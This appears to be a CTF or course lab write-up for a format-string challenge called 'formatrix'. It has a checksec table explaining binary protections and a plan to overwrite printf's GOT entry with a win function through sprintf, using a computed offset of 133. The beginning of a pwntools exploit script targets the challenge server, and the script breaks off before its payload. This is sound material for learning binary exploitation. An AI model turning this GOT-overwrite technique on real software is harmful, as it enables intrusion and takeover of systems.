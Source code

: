 * checksec： NO PIE
	
	| Attribute                          | Detailed Description                                                                                                                |
|------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------|
| **Architecture**                   | The binary is for a 64-bit architecture and uses little-endian byte ordering, where the least significant byte is stored first.     |
| **RELRO**                          | No `RELRO` protection is enabled. When `Full RELRO` is enabled, the Global Offset Table (GOT) becomes read-only, preventing attacks like GOT overwriting. Without `RELRO`, the GOT is writable at runtime, making it vulnerable. |
| **Stack Canary**                   | Stack canaries help detect stack buffer overflow attacks by placing a known value (canary) before the return address on the stack. If the canary is altered, it indicates a buffer overflow, and the program terminates. Without stack canaries, the binary is vulnerable to stack overflow attacks. |
| **NX (No-eXecute)**                | `NX` marks memory regions like the stack and data segments as non-executable, preventing injected shellcode from being executed. With `NX enabled`, typical buffer overflow attacks that inject and execute shellcode are more difficult to perform. |
| <span style="color:red">**PIE (Position Independent Executable)**</span> | <span style="color:red">Without `PIE`, the binary's code and data segments are loaded at fixed addresses, making them predictable targets for ROP attacks. With `PIE`, addresses are randomized each time the binary is executed, making it harder for attackers to predict addresses of functions or gadgets.</span> |
| **Shadow Stack (SHSTK)**           | SHSTK is an additional stack that stores return addresses separately. It compares the return address on the shadow stack with the one on the normal stack to detect tampering. If a mismatch is detected, the program will terminate, protecting against return address manipulation attacks. |
| **Indirect Branch Tracking (IBT)** | IBT adds control-flow integrity checks for indirect branches (e.g., `call` or `jmp` instructions) to prevent attackers from redirecting execution to unintended or malicious code. |
| **Stripped**                       | The binary is not stripped, meaning it still contains debugging symbols and function names. This makes it easier to analyze and debug, but it also reveals more information to attackers. |

* overwrite printf addr to win addr by exploiting sprintf, since printf no vulns
* offset: 5th, but buffer shifts from rbp-0x200 -> rbp-0x600 between fgets and sprintf, 1024bytes, which means: the newer offset should be 5 + 1024/8 = 133.

* script

	```
	# printf: 0x403580
	# win: 0x4011d6
	
	
	from pwn import *
	
	context.arch = 'amd64'
	if args.REMOTE:
	    p = remote('6447.lol', 4001)
	    # p = process('./formatrix')
	else:
	    # p fget pws *loop+179
	    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
	    p = gdb.debug('./formatrix',
	                  gdbscript='''
	                  b *0x401319
	                  c
	                  ''')
	
	# win_addr = p64(0x4011d6)
	prinf_addr_str = "0x403580"
	prinf_int = int(prinf_addr_str, 16)
	